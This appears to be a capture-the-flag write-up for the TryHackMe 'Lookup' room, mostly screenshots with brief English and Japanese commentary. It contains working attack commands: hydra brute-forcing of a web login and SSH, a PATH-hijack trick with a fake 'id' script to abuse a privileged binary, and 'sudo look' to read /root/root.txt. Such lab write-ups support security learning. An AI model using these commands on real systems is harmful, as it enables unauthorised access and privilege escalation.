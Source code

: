 ## THM_Lookup
https://tryhackme.com/room/lookup

![image](https://github.com/user-attachments/assets/d267a808-be76-4ef7-85e3-dd5a371e8f83)

### 🚩User
![image](https://github.com/user-attachments/assets/a1fe0497-1056-4a48-a64b-b8931de06d7e)

![image](https://github.com/user-attachments/assets/35eb0aaf-cb55-4799-92c2-842225e1f1ac)

![image](https://github.com/user-attachments/assets/24e466d7-4de6-48a4-964c-c04c67e645c2)

According to error msg I am sure "admin" is enable.And I tried to hydra for getting admin password, but there is no credential.
So I seek for other users.
```
hydra lookup.thm -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=username" -p a
```
![image](https://github.com/user-attachments/assets/058c5430-6fe8-494a-9db9-f445c9ce0074)

```
hydra lookup.thm -l jose -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:F=Wrong password"  
```
![image](https://github.com/user-attachments/assets/1642b93d-af9b-404e-997b-b2dd62718d5d)


![image](https://github.com/user-attachments/assets/95808164-ee3d-4351-bff5-521f01d460d9)
<P>
Added /etc/hosts "files.lookup.thm"

![image](https://github.com/user-attachments/assets/0f553640-3c57-4771-8cb5-bcac492d59d4)

![image](https://github.com/user-attachments/assets/843f4bc1-59bd-49f2-9794-50cf5f6f7fac)

![image](https://github.com/user-attachments/assets/048a63b0-ab9b-40e4-9774-cbb746e5c970)

![image](https://github.com/user-attachments/assets/c373fdf3-228b-4cd4-a1a6-3f31f49784a5)

とにかくいつもの豆...めぼしいものがない

![image](https://github.com/user-attachments/assets/b0ead9fb-187d-4c84-ac3e-a2b123bffca3)

![image](https://github.com/user-attachments/assets/d1d949a7-11cf-4fec-937c-700bbec7a2aa)

IDで返却されたID以下のディレクトリの下のパスワードを開くっぽし、IDにthinkをわたせばよい

```
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
![image](https://github.com/user-attachments/assets/715f7dfa-241f-4c8f-87bf-56610095f343)

どれかが有効なパスワードなはず

```
hydra -l think -P pass.txt ssh://10.10.62.113  
```
![image](https://github.com/user-attachments/assets/b4c8692d-569e-4816-9efe-0fcff22e1a2e)


### 🚩Root
![image](https://github.com/user-attachments/assets/478feb49-1f9f-4155-a812-4bb0f64547aa)

https://gtfobins.github.io/gtfobins/look/

![image](https://github.com/user-attachments/assets/3a9a1a99-ca7a-4f46-acbe-dc4ce39c8946)

```
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

いつものやつのはずが、約一年ぶりですっかり忘れており疲れた
💮😄💮😄💮
